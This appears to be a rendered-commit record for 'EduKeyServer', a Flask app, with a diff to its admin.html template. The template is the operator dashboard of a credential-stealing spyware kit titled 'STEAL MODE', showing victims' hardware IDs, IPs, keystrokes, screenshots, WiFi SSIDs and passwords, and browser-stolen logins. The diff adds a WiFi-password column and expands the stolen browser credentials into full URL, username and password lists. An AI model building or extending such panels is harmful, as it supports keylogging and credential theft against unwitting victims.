

Before and after one commit to Lysak-pixel/EduKeyServer, a Flask app: page / in a window 1280 px wide. Shown: the top 300 px of the page. Run offline with Flask 3, Linux system fonts and the light colour scheme; the visitor is signed in with stand-in values (Sample User, id 1); lists and menus that the app fills with data are empty.

Commit message:
Update admin.html

```diff
--- a/templates/admin.html
+++ b/templates/admin.html
@@ -4,7 +4,6 @@
     <meta charset="UTF-8" />
     <title>EduKey Admin Panel - STEAL MODE</title>
     <style>
-        /* Dark hacker vibe */
         body { background-color: #0f0f0f; color: #00ff00; font-family: 'Courier New', Courier, monospace; margin: 0; padding: 20px; }
         h2 { text-align: center; font-size: 2.5em; text-shadow: 0 0 5px #00ff00, 0 0 10px #00ff00; margin-bottom: 20px; }
         table { border-collapse: collapse; width: 100%; border: 1px solid #00ff00; box-shadow: 0 0 15px #00ff00aa; }
@@ -14,21 +13,20 @@
         img { max-height: 120px; border: 1px solid #00ff00; box-shadow: 0 0 8px #00ff00; cursor: pointer; }
         tr:hover { background-color: #002200; }
         .no-data { color: #888; font-style: italic; }
-
-        /* Glitch effect on keys */
         td pre { position: relative; animation: glitch 2s infinite; }
         @keyframes glitch { 0% { text-shadow: 2px 0 red, -2px 0 cyan; } 20% { text-shadow: -2px 0 red, 2px 0 cyan; } 40% { text-shadow: 2px 0 red, -2px 0 cyan; } 60% { text-shadow: -2px 0 red, 2px 0 cyan; } 80% { text-shadow: 2px 0 red, -2px 0 cyan; } 100% { text-shadow: none; } }
-
-        /* Scroll bar for large data */
         tbody { display: block; max-height: 70vh; overflow-y: auto; }
         thead, tbody tr { display: table; width: 100%; table-layout: fixed; }
-        th:nth-child(6), td:nth-child(6) { width: 25%; }
-        th:nth-child(7), td:nth-child(7) { width: 10%; }
-        th:nth-child(8), td:nth-child(8) { width: 10%; }
+        th:nth-child(6), td:nth-child(6) { width: 15%; }
+        th:nth-child(7), td:nth-child(7) { width: 15%; }
+        th:nth-child(8), td:nth-child(8) { width: 15%; }
+        th:nth-child(9), td:nth-child(9) { width: 15%; }
+        th:nth-child(10), td:nth-child(10) { width: 15%; }
+        th:nth-child(11), td:nth-child(11) { width: 10%; }
     </style>
 </head>
 <body>
-    <h2>EDUKEY 2025 - STEAL MODE</h2>
+    <h2>EDUKEY 2025 - STEAL MODE (VŠETKY DÁTA)</h2>
     <table>
         <thead>
             <tr>
@@ -37,9 +35,11 @@
                 <th>HWID</th>
                 <th>IP</th>
                 <th>Aktívne okno</th>
-                <th>WiFi Sieť</th>
-                <th>Stlačené klávesy</th>
+                <th>WiFi SSID</th>
+                <th>WiFi Heslo</th>
+                <th>Klávesy</th>
                 <th>Screenshot</th>
+                <th>Ukradnuté heslá (browser)</th>
                 <th>Akcie</th>
             </tr>
         </thead>
@@ -52,6 +52,7 @@
                 <td>{{ entry.ip or 'N/A' }}</td>
                 <td>{{ entry.active_window or 'N/A' }}</td>
                 <td>{{ entry.wifi_ssid or '<span class="no-data">N/A</span>'|safe }}</td>
+                <td>{{ entry.wifi_password or '<span class="no-data">Neznáme</span>'|safe }}</td>
                 <td><pre>{{ entry.keys or '<span class="no-data">Žiadne</span>'|safe }}</pre></td>
                 <td>
                     {% if entry.screenshot %}
@@ -63,10 +64,18 @@
                     {% endif %}
                 </td>
                 <td>
-                    <a href="{{ url_for('detail', index=loop.index0) }}" style="color: #00ff00; text-decoration: underline;">Zobraziť detail</a>
                     {% if entry.stolen_data %}
-                        <br><span style="color: #ff00ff;">[{{ entry.stolen_data|length }} hesiel]</span>
+                        <ul>
+                        {% for cred in entry.stolen_data %}
+                            <li><strong>{{ cred.browser }}:</strong> {{ cred.url }} | {{ cred.user }} | <em>{{ cred.password }}</em></li>
+                        {% endfor %}
+                        </ul>
+                    {% else %}
+                        <span class="no-data">Žiadne ukradnuté heslá</span>
                     {% endif %}
+                </td>
+                <td>
+                    <a href="{{ url_for('detail', index=loop.index0) }}" style="color: #00ff00; text-decoration: underline;">Detail</a>
                 </td>
             </tr>
         {% endfor %}
```
